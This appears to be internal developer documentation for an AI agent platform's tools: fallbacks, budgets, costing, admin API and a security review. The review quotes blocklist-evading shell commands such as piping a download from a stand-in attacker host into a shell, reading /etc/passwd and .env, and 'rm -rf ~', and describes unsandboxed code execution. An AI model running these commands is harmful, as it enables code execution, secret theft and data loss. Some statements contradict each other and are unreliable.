

| Primary | Alternative | Transform | What the transform does |
|---|---|---|---|
| `web_search` | `headless_browser` | `_web_search_to_browser` | `{"url": "https://www.google.com/search?q=<query>", "steps": [{"action": "get_text"}]}`. Until P6.8 it sent `action: extract_text` and `wait_for: body`, neither of which the browser has, so every fallback into it failed |
| `batch_web_search` | `web_search` | `_batch_to_single_search` | takes only the **first** query from the batch |
| `scraper_tool` | `headless_browser` | `_scraper_to_browser` | `{"url": ..., "steps": [{"action": "get_text"}]}` (the same fix) |
| `headless_browser` | `scraper_tool` | `_browser_to_scraper` | `{"url": ...}` — the call's `url`, or its first step's |

```python
# backend/src/ai/tool_fallback.py
def get_fallback_tool(primary_tool_id: str, raw_input: str) -> Tuple[Optional[str], str]:
    chain = TOOL_FALLBACK_CHAINS.get(primary_tool_id)
    if not chain:
        return None, raw_input
    for alt_tool_id in chain.get("alternatives", []):
        ...
        return alt_tool_id, transformed
    return None, raw_input
```

Behavioural notes:

- **Only four tools have fallbacks.** Every other failure goes straight to
  `[TOOL_EMPTY]`.
- **The chain is one deep.** `alternatives` is a list, but the loop returns on
  the first entry, so a second alternative would never be tried.
- **`web_search ↔ headless_browser` is not symmetric-safe.** `headless_browser`
  falls back to `scraper_tool`, which needs a Firecrawl key. If both are
  unconfigured you burn three tool calls to produce one `[TOOL_EMPTY]`.
- **The entity must be granted the fallback tool.** The fallback resolves through
  the caller's `ToolAccess` like any other call (§2.3), so an alternative the
  entity was not granted is refused. (Before P3.1, `_fallback_allowed` allowed
  *anything* to an entity that declared no tools.) A refused call — the first
  one or a fallback — is never retried or re-routed.
- **`_batch_to_single_search` silently drops queries 2..N.** The agent gets one
  query's results back where it asked for 25, with no warning in the output.

---

## 17. Tool budgets and rate limits

> **Since 2026-10-01 (P3.3, TL-11, TL-21).** Before, the per-tool cap was read off
> the function-call dict, which no caller ever filled, and its counts were reset
> at the start of every step; `max_tool_calls` was only a line in the prompt; and
> `meta_entity_creator`'s creation cap counted in a per-call copy of the context.
> None of the three could fire.

Three per-run limits are enforced by [`ToolAccess`](../../backend/src/ai/governance/tool_access.py)
on every call (§2.3), and the run's cost budget by the loop:



### 17.1 A run's calls are its log rows

Every call a step makes writes one `tool_interaction_logs` row
(`StepExecutorService._log_tool_call`). `ToolAccess.load(..., run_id=run.id)`
counts the run's rows by tool once per step — so the count survives steps,
suspends, retries of a step and workers — and `ToolAccess.record` adds each call
the step makes after that. A refused call is logged with
`log_metadata = {"refused": <reason>}` and is not counted. A fallback `a→b`
counts for both tools. A new run (a retry or a refinement included) starts at 0.

Parallel DAG steps each load the count when they start, so steps running at the
same moment can together go over a limit by at most one call each.

### 17.2 The three limits

| Limit | Set on | Refusal |
|---|---|---|
| `rate_limit_per_run` | the grant (`capabilities.tools[i]`) | `rate_limited` — "may not run again: it may be called N time(s) per run" |
| `max_tool_calls` | `governance.execution_limits` | `call_budget` — every tool is refused, and the model is no longer offered any; the prompt shows "Tool calls remaining: N of M" from the same count |
| `max_runtime_creations` (default 3) | `capabilities.meta_cognition` | `rate_limited` on `meta_entity_creator`, for every entity except the Meta-Agent |

### 17.3 Per-tenant limits

There is no per-tenant tool-call quota. `RedisRateLimiter`
([governance/rate_limiter.py](../../backend/src/ai/governance/rate_limiter.py))
implements a proper Redis sorted-set sliding window with a documented
`"tool:search:company_123"` key example — and has **zero call sites** in
`backend/src/`. Per-tenant spend is bounded by credits
([14 — Billing & credits](14-billing-and-credits.md)), not by call counts.

### 17.4 Tool-specific internal caps

| Tool | Cap |
|---|---|
| `batch_web_search` | `_MAX_QUERIES = 25`, `_MAX_QUERY_LEN = 500` |
| `web_search` | query truncated at 500 chars |
| `scraper_tool` | max 10 URLs per call; content returned capped at 32 000 chars |
| `sandbox_code` | 30 s default timeout, stdout capped at 4 096 chars |
| `terminal` | 30 s default, 120 s max; stdout and stderr each capped at 8 192 chars |
| `headless_browser` | 30 s default, 120 s max; text capped at 16 384 chars |
| `email_send` | attachment capped at 18 MB |
| `email_ingest` | body truncated at 5 000 chars |
| `meta_entity_executor` | `META_TEST_MAX_COST_USD = 1.00`, default `$0.50` |
| `meta_entity_creator` | 3 runtime creations per execution for non-Meta-Agents |
| `docx_tool` read | 200 paragraphs default |
| `excel_tool` read | 100 rows default |

---

## 18. Tool costing and billing

### 18.1 The intended design

[`ToolCostResolver`](../../backend/src/ai/governance/tool_cost_resolver.py) is
the Track 8 single source of truth.

```mermaid
flowchart TD
    START["charge - run tool_id latency_ms attribution"] --> C{"cached ?"}
    C -->|yes| AMT["amount source sku_id"]
    C -->|no| Q1["SELECT IntegrationRegistry WHERE company_id matches AND status active AND internal_cost not null AND service_category not LLM AND service_sku equals tool_id OR service_sku in TOOL_SKU_MAP OR service_category equals CUSTOM_API"]
    Q1 -->|row found| R1["amount equals row.internal_cost - source registry"]
    Q1 -->|no row| F{"tool_id in TOOL_FIXED_COST ?"}
    F -->|yes| R2["amount equals fixed - source fixed"]
    F -->|no| R3["amount 0 - source missing - warn once per process"]
    R1 --> AMT
    R2 --> AMT
    R3 --> AMT
    AMT --> Z{"amount greater than 0 ?"}
    Z -->|no| END["ToolChargeResult amount 0"]
    Z -->|yes| B1["run.total_cost_usd plus equals amount"]
    B1 --> B2["CostLedger.add - attribution tool - sku_id - latency_ms"]
    B2 --> END
```

Lookup priority, in order: `IntegrationRegistry.service_sku == tool_id` →
`service_sku` in `TOOL_SKU_MAP[tool_id]` → `TOOL_FIXED_COST[tool_id]` →
`Decimal('0')` with a one-time warning.

```python
# backend/src/ai/governance/tool_cost_resolver.py
TOOL_SKU_MAP: dict[str, list[str]] = {
    "web_search":       ["serp-api-key"],
    "batch_web_search": ["serp-api-key"],
    "scraper_tool":     ["firecrawl-api", "firecrawl"],
    "headless_browser": ["headless-browser"],
    "pdf_generator":    ["pdf-generator"],
    "image_generation": ["imagen-4.0-generate-001"],
}

TOOL_FIXED_COST: dict[str, Decimal] = {
    "image_generation": Decimal("0.04"),
    "video_generate":   Decimal("0.05"),
}
```

### 18.2 What actually runs

**`ToolCostResolver` has no production call site.** Grepping the backend, it is
imported only by
[tests/unit/test_tool_cost_resolver.py](../../backend/tests/unit/test_tool_cost_resolver.py).
The live cost logic is two hand-copied blocks in `step_executor.py`:

| Path | Location | Behaviour |
|---|---|---|
| Direct `TOOL_CALL` step | [step_executor.py:446–504](../../backend/src/ai/step_executor.py:446) | inline `_TOOL_SKU_MAP` + `_TOOL_FIXED_COST` literals; on a registry hit also inserts a `UsageLog` row; on a fixed-cost hit only bumps `run.total_cost_usd` |
| REACT / AFC turn | [step_executor.py:918+](../../backend/src/ai/step_executor.py:918) | a second copy of the same literals |
| ~~`tools.cost_resolver_v2_enabled`~~ | — | deleted 2026-09-30 (BC-17): `ToolCostResolver` is the only tool price lookup, unconditionally |

So there are three copies of the SKU map (resolver, direct path, REACT path) and
a fourth price table in `planning/cost_estimator.py`. Adding a priced tool means
touching all of them.

### 18.3 From tool call to billing line

```mermaid
sequenceDiagram
    participant SE as step_executor
    participant IR as IntegrationRegistry
    participant RUN as ExecutionRun
    participant UL as usage_logs
    participant BS as BillingService
    participant CS as CreditService

    SE->>IR: ToolCostResolver.resolve - the registry price, else the fixed table (cached per run, TX-I1)
    IR-->>SE: unit price
    SE->>UL: CostLedger.add - price times the call's billable units, raw_quantity units, the run id
    Note over RUN: the run's total is the sum of its usage rows, written by the loop (P4)
    Note over SE: a failed call is not billed (TL-52); a call that reports 0 units is not billed
    Note over BS,CS: image_generation additionally self-bills
    SE-->>BS: record_billing_event grouping_type tool grouping_value image_generation
    BS-->>CS: consume credits
```

Two other metering paths exist alongside this one:

| Path | Where | Attribution |
|---|---|---|
| Sandbox runtime seconds | [sandbox/metering.py](../../backend/src/ai/tools/sandbox/metering.py) | `UsageService.log_usage` against `SANDBOX_COST_SKU` (default `sandbox-runtime`, `cost_unit=second`), attribution `SANDBOX` |
| Image generation self-billing | [media/image_generation.py:372](../../backend/src/ai/tools/media/image_generation.py:372) | `BillingService.record_billing_event` plus `CreditService.consume` |

**Double-charge risk:** `image_generation` self-bills `$0.04` *and* is in both
`TOOL_SKU_MAP` and `TOOL_FIXED_COST`, so the step executor charges it again.
Whether that lands twice depends on whether the company has an active
`imagen-4.0-generate-001` registry row, but on the fixed-cost branch it
definitely does. Worth verifying against [14 — Billing & credits](14-billing-and-credits.md)
before trusting a per-image figure.

**A tool with no SKU is free to the platform's ledger.** `social_api`,
all four email tools, all four CRM tools and every document tool resolve to
`$0`. `crm_update_lead` can write to a customer CRM and `linkedin_create_post`
can publish to a company page, and neither leaves a cost line.

---

## 19. The tool management API and UI

### 19.1 Routes

Two routers expose tools.

| Method | Path | Auth | Handler | What it does |
|---|---|---|---|---|
| `GET` | `/api/v1/ai/tools` | any authenticated user | [router.py:468](../../backend/src/ai/router.py:468) | merged built-in + DB list; falls back to `ToolRegistry.list_tools()` if the DB is down |
| `GET` | `/api/v1/ai/tool-registry` | any authenticated user | [tool_management_router.py:34](../../backend/src/ai/tool_management_router.py:34) | same merged list, the rows the viewer may see (DM-08), never with `configuration` (TL-06) |
| `GET` | `/api/v1/ai/tool-registry/{tool_id}` | any authenticated user | :44 | one DB row by UUID, if visible; `configuration` only for `app_admin` (TL-06) — the tool editor reads it here |
| `POST` | `/api/v1/ai/tool-registry` | **`app_admin`** | :59 | create a CUSTOM entry; 409 if the name collides with a built-in |
| `PUT` | `/api/v1/ai/tool-registry/{tool_id}` | **`app_admin`** | :70 | patch any field of a row |
| `DELETE` | `/api/v1/ai/tool-registry/{tool_id}` | **`app_admin`** | :82 | delete; 403 for `tool_type == "BUILT_IN"` |
| `POST` | `/api/v1/ai/tool-registry/{tool_id}/toggle` | **`app_admin`** | :94 | flip `is_enabled` |
| `POST` | `/api/v1/ai/tool-registry/sync-built-in` | **`app_admin`** | :105 | insert a row for every registered tool that has none; returns the count created |
| `POST` | `/api/v1/ai/admin/tools/{tool_id}/experimental?enabled=` | admin | [api/admin.py:479](../../backend/src/ai/api/admin.py:479) | upsert the per-company `tools.experimental.{tool_id}` feature flag |

`RoleChecker(["app_admin"])` gates every write. See
[04 — Auth, RBAC & tenancy](04-auth-rbac-tenancy.md).

### 19.2 The merge

```mermaid
flowchart TD
    A["ToolManagementService.list_all_tools"] --> B["SELECT all tool_registry_entries keyed by name"]
    A --> C["ToolRegistry.list_tools - in memory"]
    A --> D["ToolRegistry._tools get_function_schema for each"]
    C --> E{"DB row for this name ?"}
    E -->|yes| F["description, schema and category from the code - is_enabled and display_name from the row"]
    E -->|no| G["synthesise a row - id null - is_enabled true - category from tool_category"]
    B --> H["leftover DB-only rows appended as CUSTOM"]
    F --> OUT["merged list"]
    G --> OUT
    H --> OUT
```

### 19.3 What an admin can actually change

| Control | Effect on the running agent |
|---|---|
| `is_enabled` toggle | **The kill switch.** `false` refuses the tool for every entity at its next step: `ToolAccess` reads the switched-off names once per step (§2.3). Before 2026-10-01 (TL-14) the executor never read the table and the toggle only hid the tool from the builder's picker. |
| Edit `display_name` | The label in the UI. |
| `description`, `function_schema`, `category` of a built-in tool | The code's: the list reads them from the registry, whatever the row says (TL-34, P6.9). Edit the tool, not the row |
| Create a CUSTOM tool | Creates a DB row. **Nothing ever instantiates it as a `Tool`.** Calling it returns `Error: Tool 'x' not found`. |
| Delete | Blocked for `BUILT_IN`; allowed for CUSTOM rows. |
| `sync-built-in` | Creates the missing rows and brings description, schema and category up to date on existing ones, keeping the admin's state; returns `created` and `updated`. Until P6.9 it never updated a row (TL-34). |
| Experimental flag toggle | Writes a real `feature_flags` row, but §2.3 explains why nothing reads it during execution. |

### 19.4 The UI

[ToolManagement.tsx](../../frontend/src/pages/ai/ToolManagement.tsx) (445 lines)
is the admin screen: search, category filter, type filter (`BUILT_IN` /
`CUSTOM`), counters for built-in / custom / enabled, a create-or-edit modal with
a raw JSON schema textarea, a delete confirmation, and a "sync built-in" button.
Its `CATEGORIES` filter lists the package categories (`core`, `crm`, `document`,
`email`, `execution`, `media`, `meta`, `social`) and the refinements tools declare
(`browser`, `search`, `utility`), plus `custom` and `general`.

The tool picker is the entity builder's Capabilities tab
([EntityConfigurationTabs.tsx](../../frontend/src/pages/ai/EntityConfigurationTabs.tsx)).
It fetches `/ai/tools`, filters out disabled tools, and stores a plain array of
tool *names* in `capabilities.tools`. (A separate, unused `ToolSelectionPanel`
was deleted under FE-30.)

---

## 20. Security review

### 20.1 Capability matrix

| Tool group | Reaches the internet | Writes files | Spends money | Guards that exist |
|---|---|---|---|---|
| `calculator` | no | no | no | AST allow-list, no `eval`, exponent capped at 1000, div-by-zero check |
| `web_search`, `batch_web_search` | yes — SerpAPI, DuckDuckGo | no | yes — SerpAPI credits | 500-char query cap, 25-query cap, 15 s timeout |
| `scraper_tool` | yes — Firecrawl, public URLs | yes — artifact | yes — Firecrawl credits | 10-URL cap, 30 s timeout, SSRF guard (public `http(s)` hosts only) |
| `file_writer` | no | yes | no | `os.path.basename`, extension whitelist |
| `pdf_generator`, `docx_tool`, `pptx_tool`, `excel_tool` | `pdf_generator`: public URLs while rendering | yes | no | every model path confined to the company's files (`confine_path`); output names have no directory; WeasyPrint fetches only the company's files, public `http(s)` and `data:` |
| `document_save` | no | yes | no | `format` enum, source confined to the company's files |
| `email_ingest`, `email_classify`, `email_draft` | yes — IMAP | no | no | credentials scoped by `company_id` |
| `email_send` | yes — SMTP | no | indirectly — reputational | 18 MB attachment cap. Recipients and the attachment are the run's subjects (P6.11, TL-09); no HITL gate in the tool |
| `image_generation` | yes — Vertex | yes | **yes — real dollars** | model must be a configured task default; reference image confined to the company's files |
| `video_generate` | yes — Vertex Veo | yes | **yes — real dollars** | 8 s per clip; frame paths confined to the company's files |
| `video_edit`, `video_add_sound` | no | yes | compute only | 300 s ffmpeg timeout; input and output paths confined to the company's files |
| `social_api` | yes — 8 third-party APIs | no | **yes — the tenant's ad budget** | OAuth token scoping only. EXPERIMENTAL status is not enforced at execution |
| `crm/*` | yes — tenant endpoints, Google | no | no | credentials scoped by `company_id` |
| `sandbox_code` | **yes — unrestricted under the default runtime** | yes — anywhere the OS user can write | compute | see §12.2 |
| `terminal` | **yes — unrestricted under the default runtime** | yes | compute | 13-pattern blocklist |
| `headless_browser` | yes — public http/https hosts | yes — screenshots, to the drop box | compute | in the container, the `web` proxy refuses internal addresses; on the host, every request passes the SSRF guard; `evaluate` runs arbitrary JS by design |
| `meta_entity_creator` | no | no | indirectly — creates agents that spend | 3-per-execution limit, daily cap, semantic dedupe |
| `meta_entity_executor` | no | no | **yes — triggers a child run** | hard `$1.00` cap |
| `tool_synthesis` | no directly | no | yes — LLM calls | Meta-Agent only, kill switch, AST validator, sandbox test, red team, DRAFT-only registration |

### 20.2 The five findings a reviewer should escalate

1. **The default sandbox is not a sandbox.** `SubprocessRuntime` runs
   LLM-authored code as the backend OS user with full filesystem and network
   access and no resource limits. `ContainerRuntime` — which provides the actual
   isolation — is OFF by default at both the settings and flag level. Any
   deployment running untrusted prompts against `sandbox_code` or `terminal`
   should treat that as an outstanding P0.

2. **`terminal`'s blocklist is a speed bump.** Thirteen regexes cannot enumerate
   the dangerous half of a shell. `curl attacker.example | sh`,
   `cat /etc/passwd`, `env`, `rm -rf ~`, and reading the backend's own `.env`
   all pass.

3. ~~**`scraper_tool` and `headless_browser` accept any URL.**~~ Fixed 2026-10-01
   (TL-08): both refuse hosts that resolve to loopback, private, link-local
   (instance metadata), CGNAT, multicast or reserved addresses, and the browser
   checks every request its page makes. DNS rebinding is out of reach of a
   check-then-fetch guard; in the container the browser's proxy connects only to
   the address it checked, which closes it (TL-18, 2026-10-06).

4. ~~**Tool status is decorative at execution time.**~~ Fixed 2026-10-01 (TL-13):
   `ToolAccess` refuses an `EXPERIMENTAL`/`DRAFT` tool unless the company opted in,
   on every call (§2.3).

5. ~~**`is_enabled = false` does not disable anything.**~~ Fixed 2026-10-01 (TL-14):
   it is the kill switch (§19.3).

6. ~~**The model can call any registered tool.**~~ Fixed 2026-10-01 (TL-50): a
   tool runs only if the entity is granted it (§2.3).

### 20.3 Secrets handling

Credentials never live in tool code. Every path resolves them per call:

| Source table | Decryption | Consumers |
|---|---|---|
| `integration_registry.encrypted_api_key` | `common.security.decrypt_api_key` (AES-256-GCM) | `web_search`, `scraper_tool`, `image_generation`, `crm/*` |
| `social_connections.encrypted_access_token` / `encrypted_refresh_token` | same | `social_api`'s operations via `resolve_connection` |
| `email_connections.encrypted_app_password` | same | all four email tools |

The sandbox runtimes build an explicit minimal `env` (`PATH`, `HOME`, `TMPDIR`,
`LANG`, `SAL_USE_VCLPLUGIN`) rather than inheriting `os.environ`, so the
backend's own secrets are not handed to the subprocess. That is the single most
important thing the sandbox does get right — but it does not stop the code from
reading the backend's `.env` file off the host filesystem.

---

## 21. Key files reference

| File | Lines | What it does |
|---|---|---|
| [tools/base.py](../../backend/src/ai/tools/base.py) | 202 | `Tool`, `ToolParams`, `ToolResult`, `ToolStatus`, `ToolRegistry` |
| [governance/tool_access.py](../../backend/src/ai/governance/tool_access.py) | 225 | `ToolAccess`, `ToolDenied`, `grants_of`, `injected_meta_tools` — the one decision on whether a tool may run (§2.3) |
| [tools/\_\_init\_\_.py](../../backend/src/ai/tools/__init__.py) | 245 | imports and registers all 86 tools at import time |
| [tools/README.md](../../backend/src/ai/tools/README.md) | 72 | package map — note the `ToolStatus` list is stale |
| [tools/resilience.py](../../backend/src/ai/tools/resilience.py) | 403 | `FailureKind`, `classify_tool_failure`, `ToolResilience` |
| [tool_executor.py](../../backend/src/ai/tool_executor.py) | 383 | resolution through `ToolAccess`, typed and legacy dispatch, `ToolResult` dataclass, trace spans |
| [tool_fallback.py](../../backend/src/ai/tool_fallback.py) | 166 | four fallback chains plus their input transforms |
| [tools.py](../../backend/src/ai/tools.py) | 42 | legacy re-export shim; new code should import `src.ai.tools` |
| [tool_management_router.py](../../backend/src/ai/tool_management_router.py) | 113 | 7 CRUD routes under `/api/v1/ai/tool-registry` |
| [tool_management_service.py](../../backend/src/ai/tool_management_service.py) | 280 | merge of in-memory registry with DB rows (the code wins for built-ins); `sync_built_in_tools` |
| [orm/tools.py](../../backend/src/ai/orm/tools.py) | 43 | `ToolRegistryEntry` table |
| [governance/tool_cost_resolver.py](../../backend/src/ai/governance/tool_cost_resolver.py) | 207 | `TOOL_SKU_MAP`, `TOOL_FIXED_COST`, `ToolCostResolver` — currently unused in production |
| [governance/rate_limiter.py](../../backend/src/ai/governance/rate_limiter.py) | 112 | Redis sliding-window limiter — zero call sites |
| [step_executor.py](../../backend/src/ai/step_executor.py) | ~1000+ | tool selection, both execution paths, both inline cost blocks |
| [tools/sandbox/runtime.py](../../backend/src/ai/tools/sandbox/runtime.py) | 456 | `SandboxRuntime` Protocol, `SubprocessRuntime`, runtime selection, `run_sandbox_exec` |
| [tools/sandbox/tenant_manager.py](../../backend/src/ai/tools/sandbox/tenant_manager.py) | 282 | per-tenant container lifecycle and isolation flags |
| [tools/sandbox/container_runtime.py](../../backend/src/ai/tools/sandbox/container_runtime.py) | 193 | `docker exec` implementation of the Protocol |
| [tools/sandbox/egress_proxy.py](../../backend/src/ai/tools/sandbox/egress_proxy.py) | 175 | the egress networks and one proxy container per mode (`allowlist`, `web`) |
| [tools/sandbox/browser_runner.py](../../backend/src/ai/tools/sandbox/browser_runner.py) | 230 | a browser session's steps, in the container or in-process |
| [docker/egress-proxy/web_proxy.py](../../backend/docker/egress-proxy/web_proxy.py) | 140 | the `web` mode: any public address, never an internal one |
| [tools/sandbox/metering.py](../../backend/src/ai/tools/sandbox/metering.py) | 65 | sandbox-seconds usage attribution |
| [tools/sandbox/skill_files.py](../../backend/src/ai/tools/sandbox/skill_files.py) | 170 | a run's version assets written into `.skills/<slug>/<version>/`; the prompt's Skill Files section |
| [tools/social/social_api.py](../../backend/src/ai/tools/social/social_api.py) | 160 | `social_api` — the one social tool; operations, `describe`, the platform list |
| [tools/social/base.py](../../backend/src/ai/tools/social/base.py) | 173 | `SocialMediaTool` — an operation's credentials, HTTP helper |
| [docker/sandbox/Dockerfile](../../backend/docker/sandbox/Dockerfile) | 66 | the `hb-sandbox` image |
| [docker/egress-proxy/tinyproxy.conf](../../backend/docker/egress-proxy/tinyproxy.conf) | 33 | `FilterDefaultDeny` proxy config |
| [frontend/.../ToolManagement.tsx](../../frontend/src/pages/ai/ToolManagement.tsx) | 445 | admin tool registry screen |

---

## 22. Gotchas and things that surprise newcomers

- **Registering a tool is not enough.** A tool runs only for an entity whose
  `capabilities.tools` grants it (or, for the meta tools, whose level gets it),
  and only if it is not switched off and, when `EXPERIMENTAL`, the company opted
  in (§2.3). A grant with `usage: "PLANNED"` (stored as `llm_callable: false`) is
  neither offered to the model nor callable by it; only a plan step runs it.

- **An unconverted tool's schema and code can still disagree.** For a typed tool the
  schema is derived from `Params`, so they cannot. An unconverted one (D16) receives its
  arguments as a JSON string and hand-writes its schema; `calculator` advertised
  `expression` and parsed the whole string (TL-68). Convert a tool before changing its
  arguments.

- **Tool instances are process-wide singletons, and frozen once registered.**
  `self.x = …` in a tool method raises (TX-02); a test double that counts calls
  keeps them in a list or dict made in `__init__`.

- **A run's tool calls are its `tool_interaction_logs` rows.** The per-run limits
  (§17) count them, so a test that inserts log rows for a run changes what that
  run may still call.

- **Four price tables, one truth.** `ToolCostResolver`, the direct path's
  inline literals, the REACT path's inline literals, and
  `planning/cost_estimator.py`. Adding a priced tool means editing all four.

- **`RedisRateLimiter` is fully implemented, fully tested, and never called
  from production code.** Do not assume a tested module is a live module in this
  codebase — grep for call sites. (`ToolCostResolver` became the one price table
  under BC-11; `get_visible_tools_for_company` was replaced by `ToolAccess`.)

- **A "custom tool" created through the API is inert.** There is no loader.

- **Model-supplied paths are confined to the company's files** (since
  2026-10-01, TL-54): `confine_path` in
  [sandbox/workspace.py](../../backend/src/ai/tools/sandbox/workspace.py) resolves
  a relative path in the company's workspace and refuses anything outside the
  workspace and the company's artifact directories — symlinks included. The
  shared `/tmp/sandbox/output` symlink that pointed at whichever company ran last
  is gone (TL-07); generated code writes relative to its working directory.

- *(Fixed, TL-36.)* A file is an artifact because the code put it in `$ARTIFACTS_DIR`;
  nothing is scanned.

- **A social platform is three things or none.** `social_api` reaches only the platforms
  in `PLATFORM_REFRESH_CONFIG`, which is also the connection API's list (D17). Adding a
  platform means its connection, its token refresh and its operations together.

---

## 23. Where to go next

- [05 — Agent kernel](05-agent-kernel.md) — the loop that decides which tool to
  call, and the budget that stops it.
- [06 — Entities & the execution pipeline](06-execution-pipeline.md) — how
  `capabilities.tools` gets onto an entity and how a step becomes a tool call.
- [07 — Planning & critics](07-planning-and-critics.md) — how
  `planning/cost_estimator.py` prices a plan before it runs.
- [10 — LLM providers & integrations](10-llm-providers.md) — the
  `IntegrationRegistry` that every tool resolves its API keys from.
- [14 — Billing, costing & credits](14-billing-and-credits.md) — where
  `usage_logs`, `CostLedger` and `CreditService` take the numbers from §18.
- [15 — Governance, HITL & feature flags](15-governance-and-hitl.md) — the
  `FeatureFlags` service behind `tools.experimental.*` and
  `sandbox.container_runtime_enabled`.
- [18 — Infrastructure & deployment](18-infrastructure-and-deployment.md) —
  building and pinning the `hb-sandbox` and `hb-egress-proxy` images.
- Design intent: [`docs/phase11/plan/10_track_8_tool_and_cost.md`](../phase11/plan/10_track_8_tool_and_cost.md)
  for the cost/resilience consolidation, and `docs/phase12/plans/02_sandbox_browser_terminal.md`
  for the sandbox hardening plan. Where they disagree with this document, the
  code is the truth and the difference is noted above.
